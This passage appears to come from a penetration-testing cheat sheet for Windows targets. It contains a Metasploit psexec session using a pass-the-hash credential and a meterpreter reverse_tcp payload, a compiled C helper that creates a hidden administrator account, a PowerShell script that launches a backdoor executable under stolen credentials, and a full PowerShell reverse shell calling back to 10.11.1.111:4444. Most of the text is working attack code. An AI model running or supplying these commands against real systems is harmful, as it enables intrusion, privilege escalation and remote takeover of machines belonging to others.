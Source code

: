 ```bash
   0   Automatic

msf5 exploit(windows/smb/psexec) > set rhosts 10.10.0.100
rhosts => 10.10.0.100

msf5 exploit(windows/smb/psexec) > set smbuser admin2

smbuser => admin2

msf5 exploit(windows/smb/psexec) > set smbpass aad3b435b51404eeaad3b435b51404ee:7178d3046e7ccfac0469f95588b6bdf7

smbpass => aad3b435b51404eeaad3b435b51404ee:7178d3046e7ccfac0469f95588b6bdf7

msf5 exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/reverse_tcp

payload => windows/x64/meterpreter/reverse_tcp

```

### Scripts

#### Useradd
```c
#include <stdlib.h> /* system, NULL, EXIT_FAILURE */

int main ()
{
  int i;
  i=system ("net user <username> <password> /add && net localgroup administrators <username> /add");
  return 0;
}

# Compile
i686-w64-mingw32-gcc -o useradd.exe useradd.c
```

#### Powershell Run As
```cmd
echo $username = '<username>' > runas.ps1
echo $securePassword = ConvertTo-SecureString "<password>" -AsPlainText -Force >> runas.ps1
echo $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword >> runas.ps1
echo Start-Process C:\Users\User\AppData\Local\Temp\backdoor.exe -Credential $credential >> runas.ps1

```

#### Powershell Reverse Shell
```cmd
Set-ExecutionPolicy Bypass

$client = New-Object System.Net.Sockets.TCPClient('10.11.1.111',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

```
### Windows privesc/enum tools